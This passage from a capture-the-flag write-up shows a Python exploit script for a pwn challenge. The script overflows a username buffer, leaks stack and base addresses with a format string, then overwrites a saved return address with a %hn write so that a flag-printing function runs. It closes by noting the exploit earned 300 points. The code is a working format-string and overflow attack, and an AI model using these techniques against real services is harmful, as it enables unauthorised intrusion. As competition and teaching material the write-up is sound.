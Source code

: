 ```python
    readtil('Password: ')
    sendln('guest123')
    readtil('choice: ')
    sendln('2')
    readtil('username:')
    sendln("A"*256)     # overflow userflag
    readtil('choice: ')
    sendln('4')         # secret login menu
    
    
    ### first string format vuln to read stack addr
    readtil('Login: ')
    # 43 found by lucky bruteforcing in combination with the 504 below. locally, it's at 15 and 41
    sendln('%1$lp-%43$lp')
    readtil('Password: ')
    sendln('bleh')
    data = readtil('login failed.')
    
    m = re.findall(r'([a-f0-9]{5,})', data)
    # find stack addr:
    stack_addr = int(m[1], 16) 
    base_addr = int(m[0], 16) - 0x1490
    
    # base_addr was not necesssary in the final exploit, but was 
    # instrumental in finding the right offset!
    print "[+] Leaked address of base: {}".format(hex(base_addr))
    print "[+] Leaked address of stack: {}".format(hex(stack_addr))
    
    readtil('Login: ')
    
    # we need to return to base_addr + 0xfb3, because that function 
    # is designed to read the flag & spit it over the socket
    print_offset = (base_addr & 0xffff) + 0xfb3 - 2
    
    print "[+] Offset format string with {} bytes".format(print_offset)
    
    # send format string to overwrite saved return addr of 
    sendln('%' + "%05d" % print_offset +'c___%10$hn'+q(stack_addr-504)) # should point to ret_addr at stack
    
    readtil('Password: ')
    sendln('bleh')

    t = telnetlib.Telnet()
    t.sock = s
    t.interact()

    s.close()

pwn()
```

Yes, it looks horrible, but it did drop the flag, scoring us another 300 points.
